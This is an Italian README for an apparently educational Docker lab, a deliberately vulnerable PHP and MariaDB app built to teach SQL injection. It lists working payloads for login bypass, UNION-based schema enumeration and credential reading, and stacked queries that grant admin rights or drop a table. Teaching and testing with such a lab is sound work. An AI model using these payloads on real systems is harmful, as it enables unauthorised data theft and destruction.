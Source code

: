 # SQL Injection Demo App (PHP + MariaDB + Docker)

Questa applicazione è stata creata per scopi didattici e dimostra le vulnerabilità SQL Injection più comuni in un contesto web.

---

## Funzionalità

- Login vulnerabile (tautologia/EOL comment )
- Dashboard con elenco dei dati parziali degli utenti
- Form di ricerca email vulnerabile a:
  - UNION SELECT
  - Esfiltrazione dati da `information_schema`
  - Piggybacking (`DROP`, `UPDATE`)
- Style CSS semplice incluso

---

## Tecnologie

- PHP (senza framework)
- MariaDB 10.5
- Docker & Docker Compose

---

## Requisiti

Per eseguire correttamente il progetto sono necessari i seguenti strumenti:

- Docker Desktop installato e funzionante sul proprio sistema (macOS, Windows o Linux). Docker viene utilizzato per creare ed eseguire i container dell’applicazione e del database.
- Docker Compose deve essere disponibile nel sistema. Nella maggior parte dei casi è incluso direttamente in Docker Desktop, ma in ambienti Linux potrebbe essere necessario installarlo separatamente.
-	Database MariaDB o MySQL: il progetto utilizza MariaDB (via container Docker), ma è compatibile anche con MySQL. Il database viene inizializzato automaticamente tramite uno script SQL (init.sql) incluso nel progetto, quindi non è necessaria alcuna configurazione manuale.

---

## Avvio dell'applicazione

1. Clona il progetto

```bash
git clone https://github.com/BlackCodeReaper/sqli-project.git
cd sqli-project
```

2. Avvia i container

```bash
docker-compose up --build
```

L'app sarà disponibile su `http://localhost:8080/login.html`

---

## Login di esempio

Tautologia:
```
Username: ' OR 1=1 #
Password: qualsiasi
```

EOL Comment:
```
Username: admin' #
Password: qualsiasi
```

Credenziali reali:
```
Username: admin
Password: admin123
```

---

## Esecuzione di attacchi SQLi

Tautologia:
```
' OR 1=1 #
```

Scoprire nome database:
```
' UNION SELECT 'Nome database:', DATABASE(), '', '', '' #
```

Elencare tutti gli schemi:
```
' UNION SELECT schema_name, '', '', '', '' FROM information_schema.schemata #
```

Elencare tabelle:
```
' UNION SELECT 'Nome tabella:', table_name, '', '', '' FROM information_schema.tables WHERE table_schema='sqli_project' #
```

Elencare colonne:
```
' UNION SELECT 'Nome colonna:', column_name, '', '', '' FROM information_schema.columns WHERE table_name='utenti' AND table_schema='sqli_project' #
```

Leggere credenziali:
```
'UNION SELECT 'ID', 'username', 'password', 'email', 'telefono' UNION SELECT id, username, password, email, telefono FROM utenti #
```

Aggiornare un utente:
```
' ; UPDATE utenti SET ruolo = 'admin' WHERE username = 'user1'; --
```

Cancellare la tabella:
```
' ; DROP TABLE utenti; --
```

---

## Ripristino del database

Se la tabella o il database vengono eliminati durante i test, puoi ricostruire tutto con:

```bash
docker-compose down -v
docker-compose up --build
```

---

## Crediti

Progetto sviluppato per scopi didattici. **Non usare in ambienti di produzione.**